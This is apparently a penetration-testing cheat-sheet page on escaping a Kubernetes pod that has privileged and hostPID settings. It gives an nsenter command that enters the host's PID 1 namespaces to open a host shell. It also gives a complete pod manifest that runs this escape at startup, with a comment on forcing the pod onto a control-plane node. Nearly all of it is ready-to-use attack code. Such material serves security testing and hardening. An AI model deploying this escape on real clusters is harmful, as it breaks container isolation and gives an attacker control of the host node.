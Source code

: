 # Pod Escape Privileges

## Privileged and hostPID

With these privileges you will have **access to the hosts processes** and **enough privileges to enter inside the namespace of one of the host processes**.\
Note that you can potentially not need privileged but just some capabilities and other potential defenses bypasses (like apparmor and/or seccomp).

Just executing something like the following will allow you to escape from the pod:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

Configuration example:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: priv-and-hostpid-exec-pod
  labels:
    app: pentest
spec:
  hostPID: true
  containers:
    - name: priv-and-hostpid-pod
      image: ubuntu
      tty: true
      securityContext:
        privileged: true
      command:
        [
          "nsenter",
          "--target",
          "1",
          "--mount",
          "--uts",
          "--ipc",
          "--net",
          "--pid",
          "--",
          "bash",
        ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```

